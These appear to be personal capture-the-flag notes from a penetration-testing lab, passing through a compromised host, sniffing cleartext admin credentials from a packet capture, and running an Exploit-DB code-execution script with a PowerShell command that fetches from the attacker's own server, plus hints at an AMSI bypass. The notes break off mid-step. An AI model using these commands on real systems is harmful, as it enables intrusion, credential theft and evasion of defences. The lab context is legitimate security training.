 Utilize Burp Proxy and 127.0.0.1 Port 1080 for proxychains config
In burp ensure that the socks proxy port is set.
![[Pasted image 20230831104918.png]]
Gobuster did not yield any results

```
Utilized Gobuster, did not yield anything
```bash
gobuster dir --proxy socks5://127.0.0.1:108- -u http://172.16.1.30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Utilized tcpdump on 10.10.110.123 to collect traffic and put into a file named pcap.pcap
- Let the tcpdump run for 30 minutes 
```bash
root@NIX01:~# tcpdump -w pcap.pcap
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
^C4715 packets captured
```
On kali machine used scp to pull the pcap.pcap over from the 10.10.110.123 machine
```bash
[root💀~/bugs_offshore/10.10.110.123] [10.10.14.39] [2023-08-31 12:19:14] 
 └─╼ # scp -i root_rsa root@10.10.110.123:/root/pcap.pcap /root/bugs_offshore/pcap.pcap
pcap.pcap                                                                                      100% 3913KB   4.8MB/s   00:00  
```

![[Pasted image 20230831124225.png]]
opened pcap.pcap with wireshark and filtered by http to catch the credentials
![[Pasted image 20230831124501.png]]
```bash
Frame 3802: 133 bytes on wire (1064 bits), 133 bytes captured (1064 bits)
Ethernet II, Src: VMware_b9:6b:41 (00:50:56:b9:6b:41), Dst: VMware_b9:a9:2d (00:50:56:b9:a9:2d)
Internet Protocol Version 4, Src: 172.16.1.30, Dst: 172.16.1.23
Transmission Control Protocol, Src Port: 61103, Dst Port: 80, Seq: 268, Ack: 26, Len: 79
[2 Reassembled TCP Segments (346 bytes): #3799(267), #3802(79)]
Hypertext Transfer Protocol
HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "username" = "admin"
        Key: username
        Value: admin
    Form item: "flag" = "OFFSHORE{l0v3_cl3artext_pr0toc0l$}"
        Key: flag
        Value: OFFSHORE{l0v3_cl3artext_pr0toc0l$}
    Form item: "password" = "Zaq12wsx!"
```

Nothing to see here flag:
`OFFSHORE{l0v3_cl3artext_pr0toc0l$}`

On as admin
![[Pasted image 20230831124951.png]]
Found Authenticated Code Execution
https://www.exploit-db.com/exploits/47255
setup a python3 server on my kali machine & attempted to reach out to it to test if I could hit the server
```bash
proxychains python3 47255.py -u admin -t http://172.16.1.30 -p 'Zaq12wsx!' -c "powershell iwr http://10.10.14.39:8000"
```
![[Pasted image 20230831141734.png]]
amsi""utils
amsiutils
amsi.fails
Made amsi.txt file to bypass amsi.
Pulled over file 